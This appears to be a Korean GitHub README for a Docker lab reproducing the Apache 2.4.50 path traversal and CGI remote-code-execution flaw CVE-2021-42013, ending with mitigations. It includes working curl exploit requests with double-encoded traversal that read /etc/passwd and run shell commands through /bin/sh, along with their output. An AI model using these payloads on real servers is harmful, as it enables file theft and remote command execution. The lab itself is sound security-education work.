




# CVE-2021-42013

## 취약점 요약

CVE-2021-42013은 Apache HTTP Server 2.4.50에서 발생한 Path Traversal 및 Remote Code Execution 취약점입니다. Apache HTTP Server 2.4.49의 CVE-2021-41773 패치가 불완전하게 적용되면서, 2.4.50에서도 URL 경로 정규화 우회가 가능해졌습니다.

공격자는 조작된 URL을 이용해 Alias로 설정된 경로 밖의 파일에 접근할 수 있습니다. 또한 CGI가 활성화된 경로에서는 `/bin/sh`와 같은 실행 파일을 CGI처럼 호출하여 원격 명령 실행으로 이어질 수 있습니다.

- CVE 번호: CVE-2021-42013
- 취약 버전: Apache HTTP Server 2.4.50
- 실습 버전: Apache HTTP Server 2.4.50
- 영향: Path Traversal, 파일 노출, 원격 명령 실행
- CVSS 3.1: 9.8 Critical
- CVSS Vector: `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`

## 환경 구성

본 실습은 Docker를 이용해 로컬 환경에 취약한 Apache HTTP Server 2.4.50 컨테이너를 구성합니다. 외부 취약 이미지에 의존하지 않고, Dockerfile에서 Apache HTTP Server 2.4.50 소스코드를 직접 빌드합니다.

```text
Apache-HTTPD/CVE-2021-42013/
├── docker-compose.yml
├── Dockerfile
├── httpd.conf
├── htdocs/
│   └── index.html
├── cgi-bin/
│   └── test.cgi
├── 1.png
├── 2.png
├── 3.png
└── README.md
```

Docker Desktop 또는 Docker Engine이 실행 중인 상태에서 다음 명령어로 환경을 실행합니다.

```bash
docker compose up --build -d
```

컨테이너 실행 상태를 확인합니다.

```bash
docker ps
```

웹 서버가 정상적으로 동작하는지 확인합니다.

```bash
curl http://localhost:8080/
```

정상적으로 실행되면 테스트 페이지가 출력됩니다.



## 취약 조건

이 실습 환경은 CVE-2021-42013 재현을 위해 다음 조건을 포함합니다.

- Apache HTTP Server 2.4.50 사용
- `/icons/` 경로에 일반 Alias 설정
- `/cgi-bin/` 경로에 ScriptAlias 설정
- CGI 실행 활성화
- 실습을 위해 루트 디렉터리 접근 제한을 완화한 설정 사용

`/icons/` 경로는 Path Traversal을 통한 파일 노출을 확인하기 위해 사용합니다. `/cgi-bin/` 경로는 CGI 실행을 통한 원격 명령 실행을 확인하기 위해 사용합니다.

## PoC 설명

PoC에서 사용하는 `.%%32%65/` 문자열은 `../` 경로 이동을 우회 표현한 값입니다.

```text
%32 = 문자 2
%65 = 문자 e
%%32%65 -> %2e -> .
.%%32%65/ -> ../
```

`curl`의 `--path-as-is` 옵션은 클라이언트가 URL 경로를 정규화하지 않고 서버에 그대로 전송하도록 합니다. 이 옵션을 사용해야 Apache의 경로 정규화 우회 동작을 재현할 수 있습니다.

## 재현 절차

### 1. 환경 검증

Apache 설정 파일 문법과 주요 파일 존재 여부를 확인합니다.

```bash
docker exec cve-2021-42013-apache /usr/local/apache2/bin/httpd -t
docker exec cve-2021-42013-apache ls -l /usr/local/apache2/modules/mod_unixd.so
docker exec cve-2021-42013-apache ls -l /usr/local/apache2/conf/mime.types
```

정상 환경에서는 `Syntax OK`가 출력되고, `mod_unixd.so`와 `mime.types` 파일이 존재합니다.



### 2. Path Traversal을 통한 파일 노출

다음 요청은 URL 인코딩을 이용해 상위 디렉터리로 이동한 뒤 컨테이너 내부의 `/etc/passwd` 파일을 읽습니다.

```bash
curl --path-as-is "http://localhost:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd"
```

실행 결과 `/etc/passwd` 파일 내용이 응답으로 출력됩니다.

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```



### 3. CGI를 통한 원격 명령 실행

다음 요청은 Path Traversal을 이용해 `/bin/sh`를 CGI처럼 호출한 뒤, 요청 본문으로 전달한 `id` 명령을 실행합니다.

```bash
curl --path-as-is "http://localhost:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh" \
  -d "echo; id"
```

실행 결과 웹 서버 권한인 `daemon` 사용자로 명령이 실행된 것을 확인할 수 있습니다.

```text
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```



## PoC 코드

파일 노출 PoC:

```bash
curl --path-as-is "http://localhost:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd"
```

원격 명령 실행 PoC:

```bash
curl --path-as-is "http://localhost:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh" \
  -d "echo; id"
```

## 실행 결과

실습 결과, Apache HTTP Server 2.4.50에서 조작된 URL을 통해 Alias 경로 밖에 있는 `/etc/passwd` 파일을 읽을 수 있었습니다. 또한 CGI가 활성화된 경로를 이용해 `/bin/sh`를 호출하고, HTTP 요청 본문으로 전달한 명령어를 실행할 수 있었습니다.

이를 통해 CVE-2021-42013이 특정 Apache 설정과 결합될 경우 파일 노출뿐 아니라 원격 명령 실행으로 이어질 수 있음을 확인했습니다.

## 대응 방안

- Apache HTTP Server를 2.4.51 이상 버전으로 업그레이드합니다.
- 불필요한 CGI 기능을 비활성화합니다.
- `ScriptAlias`와 `Alias` 설정을 최소화합니다.
- Alias 경로 밖의 파일 접근이 불가능하도록 디렉터리 권한을 제한합니다.
- 루트 디렉터리에는 기본적으로 `Require all denied`를 적용합니다.
- 운영 환경에서는 컨테이너와 웹 서버 권한을 최소 권한으로 제한합니다.

## 환경 종료

실습이 끝나면 다음 명령어로 컨테이너를 종료합니다.

```bash
docker compose down
```

## 참고 자료

- Apache HTTP Server 2.4 Vulnerabilities: https://httpd.apache.org/security/vulnerabilities_24.html
- NVD - CVE-2021-42013: https://nvd.nist.gov/vuln/detail/CVE-2021-42013
